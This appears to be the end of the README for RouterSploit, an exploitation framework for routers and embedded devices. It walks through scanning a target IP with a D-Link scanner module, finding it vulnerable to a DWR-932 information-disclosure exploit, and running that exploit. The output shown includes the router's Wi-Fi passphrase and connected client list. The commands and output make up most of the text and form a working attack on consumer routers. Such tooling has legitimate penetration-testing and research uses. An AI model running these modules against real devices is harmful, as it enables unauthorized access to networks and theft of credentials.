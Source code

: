 Set target:

    rsf (D-Link Scanner) > set target 192.168.1.1
    [+] {'target': '192.168.1.1'}

### Run module

    rsf (D-Link Scanner) > run
    [+] exploits/dlink/dwr_932_info_disclosure is vulnerable
    [-] exploits/dlink/dir_300_320_615_auth_bypass is not vulnerable
    [-] exploits/dlink/dsl_2750b_info_disclosure is not vulnerable
    [-] exploits/dlink/dns_320l_327l_rce is not vulnerable
    [-] exploits/dlink/dir_645_password_disclosure is not vulnerable
    [-] exploits/dlink/dir_300_600_615_info_disclosure is not vulnerable
    [-] exploits/dlink/dir_300_600_rce is not vulnerable

    [+] Device is vulnerable!
     - exploits/dlink/dwr_932_info_disclosure

It has been verified that the target is vulnerable to dwr\_932\_info\_disclosure exploit. Now use the proper module and exploit target.

    rsf (D-Link Scanner) > use exploits/dlink/dwr_932_info_disclosure
    rsf (D-Link DWR-932 Info Disclosure) > set target 192.168.1.1
    [+] {'target': '192.168.1.1'}
    rsf (D-Link DWR-932 Info Disclosure) > exploit
    [*] Running module...
    [*] Decoding JSON value
    [+] Exploit success

       Parameter                  Value                                                                                                 
       ---------                  -----                                                                                                 
       get_wps_enable             0                                                                                                     
       wifi_AP1_enable            1                                                                                                     
       get_client_list            9c:00:97:00:a3:b3,192.168.0.45,IT-PCs,0>40:b8:00:ab:b8:8c,192.168.0.43,android-b2e363e04fb0680d,0     
       wifi_AP1_ssid              dlink-DWR-932                                                                                         
       get_mac_address            c4:00:f5:00:ec:40                                                                                     
       wifi_AP1_security_mode     3208,8                                                                                                
       wifi_AP1_hidden            0                                                                                                     
       get_mac_filter_switch      0                                                                                                     
       wifi_AP1_passphrase        MyPaSsPhRaSe                                                                                          
       get_wps_mode               0

# License

The RouterSploit Framework is under a BSD license.
Please see [LICENSE](LICENSE) for more details.
